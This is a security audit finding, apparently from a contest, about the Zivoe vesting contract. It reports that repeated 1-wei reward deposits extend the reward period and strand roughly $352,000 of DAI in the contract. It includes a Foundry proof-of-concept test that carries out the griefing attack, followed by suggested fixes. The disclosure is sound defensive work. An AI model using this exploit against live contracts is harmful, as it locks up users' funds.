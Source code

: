 Mini Rouge Snail

high

# Rewards will be stuck in the `ZivoeRewardsVesting` contract without a way to withdraw them

## Summary
The `ZivoeRewardsVesting.sol` contract is susceptible to rewards getting stuck in the contract.

A tested scenarios under which this can happen

Malicious user spams the last reward distribution period by calling [`ZivoeRewardsVesting::depositReward(...)`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352) to add a reward of `1 wei` at least twice a day or every hour to push the `periodEnd` beyond the end of the vesting period, if at the end of the vesting period all vesters call [`fullWithdraw()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L370-L373) to exit/close their vested positions there will be undistributed reward remaining in the contract with no way to withdraw

## Vulnerability Detail
- The last reward is added for a 360 day vesting period on the 331st day,
- any malicious user can start calling [`ZivoeRewardsVesting::depositReward(...)`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352) at least twice a day with `1 wei` of each reward asset (for example DAI) to push the new period finish forward and thus extend the distribution time.
- On day 361st day all vesters withdraw completely and with `rewardData[_rewardsToken].periodFinish` still at leat 2 week far ahead, some reward token is left undistributed in the contract with no way to withdraw it.
- The malicious vester can benefit from this by staying until the en of the `periodFinish` to claim all the remaing reward.
- if the attack is from a non vesting user, the funds are stuck with no way to claim

This test below shows that a malicious user can spam the last `ZivoeRewardsVesting` reward distribution to ensure users will not get their full reward and the undistributed reward will be stuck in the contract.

Add the test case below to the `Test_ZivoeRewardsVesting.sol` and run 
`forge test --mt test_ZivoeRewardsVesting_Rewards_Are_Stuck --rpc-url https://rpc.ankr.com/eth -vv`
you can use your own RPC url

```solidity
    function test_ZivoeRewardsVesting_Rewards_Are_Stuck() public {

        // sam, sue, sal, sid, jim, joe, jon, jen claim their airdrop and begin vesting
        (,, uint256 _ZVE_Vested_SAM) = sam.claimAirdrop(address(ITO), address(sam));
        (,, uint256 _ZVE_Vested_SUE) = sue.claimAirdrop(address(ITO), address(sue));
        (,, uint256 _ZVE_Vested_SAL) = sal.claimAirdrop(address(ITO), address(sal));
        (,, uint256 _ZVE_Vested_SID) = sid.claimAirdrop(address(ITO), address(sid));
        (,, uint256 _ZVE_Vested_JIM) = jim.claimAirdrop(address(ITO), address(jim));
        (,, uint256 _ZVE_Vested_JOE) = joe.claimAirdrop(address(ITO), address(joe));
        (,, uint256 _ZVE_Vested_JON) = jon.claimAirdrop(address(ITO), address(jon));
        (,, uint256 _ZVE_Vested_JEN) = jen.claimAirdrop(address(ITO), address(jen));

        assertEq(_ZVE_Vested_SAM, vestZVE.balanceOf(address(sam)));


        emit log("First reward is deposited");

        uint256 deposit = uint256(1_000_000 ether);

        // deposit 1_000_000DAI rewards
        depositReward_DAI(address(vestZVE), deposit);
        // 30 days up
        hevm.warp(block.timestamp + 30 days - 2);

        // all users withdraw fully (vest + reward) 
        assert(sam.try_fullWithdraw(address(vestZVE)));
        assert(sal.try_fullWithdraw(address(vestZVE)));
        assert(joe.try_fullWithdraw(address(vestZVE)));
        assert(jim.try_fullWithdraw(address(vestZVE)));
        assert(sue.try_fullWithdraw(address(vestZVE)));
        assert(sid.try_fullWithdraw(address(vestZVE)));
        assert(jon.try_fullWithdraw(address(vestZVE)));
        assert(jen.try_fullWithdraw(address(vestZVE)));

        // another reward of 1_000_000DAI is deposited at the end of 30 days 
        depositReward_DAI(address(vestZVE), deposit);

        // ... more rewards get added along the line

        // 129 days up
        hevm.warp(block.timestamp + 100 days - 2);



        // all users withdraw fully (vest + reward) 
        assert(sam.try_fullWithdraw(address(vestZVE)));
        assert(sal.try_fullWithdraw(address(vestZVE)));
        assert(joe.try_fullWithdraw(address(vestZVE)));
        assert(jim.try_fullWithdraw(address(vestZVE)));
        assert(sue.try_fullWithdraw(address(vestZVE)));
        assert(sid.try_fullWithdraw(address(vestZVE)));
        assert(jon.try_fullWithdraw(address(vestZVE)));
        assert(jen.try_fullWithdraw(address(vestZVE)));

        emit log_named_decimal_uint("Dai Reward balance at day 330 before adding rewards", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

        // 330 days up
        hevm.warp(block.timestamp + 200 days + 10);
        // last reward distribution is suppose to end at the end of 30 days coliding with the end of the vesting period
        depositReward_DAI(address(vestZVE), deposit);
        emit log_named_decimal_uint("Dai Reward balance at day 330 after adding rewards", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

        assertEq(vestZVE.lastTimeRewardApplicable(address(DAI)), block.timestamp);

        
        // @audit malicious user adds 1 wei of DAI rewards every 12hours for the last 30 days of vesting
        for (uint8 i = 0; i < 60; i++) {
            hevm.warp(block.timestamp + 43200);
            depositReward_DAI(address(vestZVE), 1 wei);
        }

				// 361 days up and vesting is complete
        hevm.warp(block.timestamp + 1 days);
        // vesting has ended and all vesters withdraw fully
        assert(sal.try_fullWithdraw(address(vestZVE)));
        assert(joe.try_fullWithdraw(address(vestZVE)));
        assert(jim.try_fullWithdraw(address(vestZVE)));
        assert(sue.try_fullWithdraw(address(vestZVE)));
        assert(sid.try_fullWithdraw(address(vestZVE)));
        assert(jon.try_fullWithdraw(address(vestZVE)));
        assert(jen.try_fullWithdraw(address(vestZVE)));
        assert(sam.try_fullWithdraw(address(vestZVE)));

        hevm.warp(block.timestamp + 10 days);
        // vesters have completely exited vesting
        assertEq(vestZVE.amountWithdrawable(address(sal)), 0);
        assertEq(vestZVE.amountWithdrawable(address(joe)), 0);
        assertEq(vestZVE.amountWithdrawable(address(jim)), 0);
        assertEq(vestZVE.amountWithdrawable(address(sue)), 0);
        assertEq(vestZVE.amountWithdrawable(address(sid)), 0);
        assertEq(vestZVE.amountWithdrawable(address(jon)), 0);
        assertEq(vestZVE.amountWithdrawable(address(jen)), 0);
        assertEq(vestZVE.amountWithdrawable(address(sam)), 0);
        
        // confirm there is still DAI rewards left after vesting ($352,000 left behind)
        assertEq(IERC20(address(DAI)).balanceOf(address(vestZVE)), 352632567061566742623902);
        
        hevm.warp(block.timestamp + 30 days);


        emit log_named_decimal_uint("Dai Reward balance at end of vesting (day 400)", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

    }
```


## Impact
This can lead to loss of funds for the vesters who participated in `ITO` as the remaining rewards would be stuck in the contract without a means to withdraw them.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L370-L373

## Tool used

Foundry test, Manual review

## Recommendation
- Add a function to allow admin to withdraw unclaimed reward tokens only at the end of vesting period
- Increase minimum amount of reward that can be added to the vesting contract using to prevent malicious users from spaming the distribution